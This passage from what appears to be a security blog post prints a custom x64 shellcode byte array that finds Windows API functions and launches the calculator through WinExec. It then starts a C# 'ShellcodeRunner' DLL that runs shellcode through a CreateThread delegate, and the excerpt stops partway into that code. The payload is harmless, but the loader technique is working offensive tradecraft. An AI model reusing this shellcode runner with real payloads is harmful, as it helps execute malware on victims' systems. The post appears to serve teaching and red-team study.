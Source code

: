 I also went with my own custom shellcode, NOT using MSFVENOM.  Check out my shellcoding and assembly series if you'd like to learn more!  This particular shellcode executes the Calculator via WinExec and then calls ExitThread:

```csharp
    static readonly byte[] shellcode = new byte[]
    {
0x48,0x83,0xec,0x28,0x48,0x83,0xe4,0xf0,0x48,0x31,
0xc9,0x65,0x48,0x8b,0x41,0x60,0x48,0x8b,0x40,0x18,
0x48,0x8b,0x70,0x10,0x48,0x8b,0x36,0x48,0x8b,0x36,
0x48,0x8b,0x5e,0x30,0x49,0x89,0xd8,0x8b,0x5b,0x3c,
0x4c,0x01,0xc3,0x48,0x31,0xc9,0x66,0x81,0xc1,0xff,
0x88,0x48,0xc1,0xe9,0x08,0x8b,0x14,0x0b,0x4c,0x01,
0xc2,0x44,0x8b,0x52,0x14,0x4d,0x31,0xdb,0x44,0x8b,
0x5a,0x20,0x4d,0x01,0xc3,0x4c,0x89,0xd1,0x48,0xb8,
0x64,0x64,0x72,0x65,0x73,0x73,0x90,0x90,0x48,0xc1,
0xe0,0x10,0x48,0xc1,0xe8,0x10,0x50,0x48,0xb8,0x47,
0x65,0x74,0x50,0x72,0x6f,0x63,0x41,0x50,0x48,0x89,
0xe0,0x67,0xe3,0x20,0x31,0xdb,0x41,0x8b,0x1c,0x8b,
0x4c,0x01,0xc3,0x48,0xff,0xc9,0x4c,0x8b,0x08,0x4c,
0x39,0x0b,0x75,0xe9,0x44,0x8b,0x48,0x08,0x44,0x39,
0x4b,0x08,0x74,0x03,0x75,0xdd,0xcc,0x51,0x41,0x5f,
0x49,0xff,0xc7,0x4d,0x31,0xdb,0x44,0x8b,0x5a,0x1c,
0x4d,0x01,0xc3,0x43,0x8b,0x04,0xbb,0x4c,0x01,0xc0,
0x50,0x41,0x5f,0x4d,0x89,0xfc,0x4c,0x89,0xc7,0x4c,
0x89,0xc1,0x4d,0x89,0xe6,0x48,0x89,0xf9,0xb8,0x61,
0x64,0x90,0x90,0xc1,0xe0,0x10,0xc1,0xe8,0x10,0x50,
0x48,0xb8,0x45,0x78,0x69,0x74,0x54,0x68,0x72,0x65,
0x50,0x48,0x89,0xe2,0x48,0x83,0xec,0x30,0x41,0xff,
0xd6,0x48,0x83,0xc4,0x30,0x49,0x89,0xc5,0x4d,0x89,
0xe6,0x48,0x89,0xf9,0x48,0xb8,0x57,0x69,0x6e,0x45,
0x78,0x65,0x63,0x00,0x50,0x48,0x89,0xe2,0x48,0x83,
0xec,0x30,0x41,0xff,0xd6,0x48,0x83,0xc4,0x30,0x49,
0x89,0xc6,0x48,0x83,0xc4,0x08,0xb8,0x00,0x00,0x00,
0x00,0x50,0x48,0xb8,0x63,0x61,0x6c,0x63,0x2e,0x65,
0x78,0x65,0x50,0x48,0x89,0xe1,0xba,0x01,0x00,0x00,
0x00,0x48,0x83,0xec,0x30,0x41,0xff,0xd6,0x31,0xc9,
0x41,0xff,0xd5
    };
```

And lastly, the C# DLL code, in full.  I won't be able to go through each line and explain this code in this post, but if you'd like to dive deeper with understanding how it all works, hit me up.  I don't meant to constantly advertise my membership offering, but I do think it's really helpful for folks that wish to take things further than what I capture in my blog.  Check out the link at the top-right corner of my blog for more info.  It looks like this: "Partner / Donate / Become a Member!".  Ok, let's go!

```csharp
using System;
using System.Runtime.InteropServices;
//using System.Threading;

public class ShellcodeRunner
{
    // Define delegate for CreateThread
    [UnmanagedFunctionPointer(CallingConvention.StdCall)]
    delegate IntPtr CreateThreadDelegate(
        IntPtr lpThreadAttributes,
        uint dwStackSize,
        IntPtr lpStartAddress,
        IntPtr lpParameter,
        uint dwCreationFlags,
        out uint lpThreadId);

```